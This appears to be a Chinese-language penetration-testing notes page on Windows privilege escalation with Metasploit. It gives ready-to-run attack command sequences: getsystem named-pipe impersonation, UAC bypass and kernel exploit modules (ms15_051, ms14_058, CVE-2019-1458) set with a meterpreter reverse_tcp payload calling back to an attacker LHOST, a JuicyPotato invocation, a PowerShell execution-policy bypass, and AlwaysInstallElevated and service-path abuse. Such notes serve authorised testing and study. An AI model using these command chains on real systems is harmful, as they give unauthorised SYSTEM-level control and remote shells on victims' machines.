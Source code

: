 ## Metasploit

#### 一、GetSystem命名管道

<br/>

##### 0x01、提权命令

```sh
getuid    # 获取连接用户id
 
getsystem   # 通过命名管道进行提权，获得system账号权限
```

普通账户在getsystem是会报错，提示需要管理员组

<br/>

##### 0x02、命名管道介绍

> 命名管道（Named Pipes）是一种简单的进程间通信（IPC）机制。命名管道可以在同一台计算机的不同进程之间，或者跨越一个网络的不同计算机的不同进程之间的可靠的双向或单向的数据通信。

- 服务端
  
  创建管道实例 -> 等待客户端连接 -> 读取数据 -> 逻辑处理 -> 写回数据
- 客户端
  
  检测管道是否可用 -> 连接服务端管道 -> 写数据到服务端 -> 从服务端读取数据 -> 断开管道连接

创建管道函数：`CreateNamedPipe`

- 模拟令牌
  > 模拟令牌是命名管道中常见的一种方法，一般可以用来提权操作， Metasploit 中的 getsystem 也 就是这个原理。
  
  步骤
  ```text
  1. 创建一个以system权限启动的程序，这个程序的作用是连接指定的命名管道
  2. 创建一个进程，并让进程创建命名管道
  3. 让之前的以 system 权限启动的程序启动并连接这个命名管道
  4. 利用 ImpersonateNamedPipeClient() 函数生成 system 权限的 token
  5. 利用 system 权限的 token 启动 cmd.exe
  ```

使用脚本工具创建命名管道

> https://github.com/decoder-it/pipeserverimpersonate

```sh
# 创建
powershell -ep bypass -f pipeserverimpersonate.ps1

# 查看
[System.IO.Directory]::GetFiles("\\.\\pipe\\")
```

![截图](pic/faa317e94822cebbad4705a66c5c597e.png)

<br/>

#### 二、BypassUAC

<br/>

##### 0x01、绕过账户控制

> getsystem 提权方式对于普通用户来说是失败的不可正常执行的，那么这种情况下就需要绕过系统 UAC来进行 getsystem 提权

```sh
use exploit/windows/local/bypassuac
set payload windows/x64/meterpreter/reverse_tcp
set LHOST=192.168.1.170
set session 1
exploit
```

![截图](pic/41435b093d640cd65a13144c4638815b.png)

######  a、搜索绕过模块

```sh
search bypassuac
```

![截图](pic/953150abb3ca9eac6f09052e446cba58.png)

###### b、提权漏洞检测模块

```sh
search local_exploit_suggester
```

![截图](pic/70d7105c46de9ee98125736ec118e851.png)

部分检出漏洞模块可能无法利用，需自行测试

```sh
#该模块在某些版本成功率较高
exploit/windows/local/cve_2019_1458_wizardopium
```

<br/>

#### 三、Windows内核提权漏洞

查找windows本地提权漏洞

```sh
# https://github.com/SecWiki/windows-kernel-exploits
# https://www.freebuf.com/articles/system/184289.html

search exploit/windows/local Privilege
```

##### 0x01、enum_patches

```sh
use post/windows/gather/enum_patches
set session 7
run
```

![截图](pic/594578b2558fce18cbf9da60339e5276.png)

![截图](pic/ce0821d37de2d8b570cf973d04d0ab71.png)

##### 0x02、ms15_051_client_copy_image

> 使用于windows7、windows server 2008R2 SP1 x64

```sh
use exploit/windows/local/ms15_051_client_copy_image
set payload windows/x64/meterpreter/reverse_tcp
set session 7
set target 1
exploit
```

![截图](pic/86c08ede906a21a8a31efb934178e107.png)

##### 0x03、ms14_058_track_popup_menu

```sh
use exploit/windows/local/ms14_058_track_popup_menu
set payload windows/x64/meterpreter/reverse_tcp
set session 7
set target 1
exploit
```

##### 0x04、JuicyPotato

```sh
juicypotato.exe -t * -p "payload.exe" -l 9001 -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

<br/>

#### 四、服务漏洞提权

##### 0x01、AlwaysInstallElevated

> AlwaysInstallElevated 是一个策略设置，当在系统中使用Windows Installer安装任何程序时，该 参数允许非特权用户以system权限运行MSI文件。

https://www.cnblogs.com/zpchcbd/p/11943147.html

##### 0x02、Always Install Elevated提权利用

判断是否启用此策略：

```text
reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

收到 "AlwaysInstallElevated REG_DWORD 0x1"，说明策略已经启用。

如果没有启用需要添加注册表项启用策略。

或者直接使用MSF模块：`use exploit/windows/local/always_install_elevated`

##### 0x03、可信任服务路径

控制低权限帐户后，生成`payload`放入有漏洞的目标服务路径

`exploit/windows/local/unquoted_service_path`

<br/>

##### 0x04、 不安全的服务权限

系统里安装了一些需要每天检查更新的软件，通常是创建了一个服务程序定时执行

`use exploit/windows/local/service_permissions`
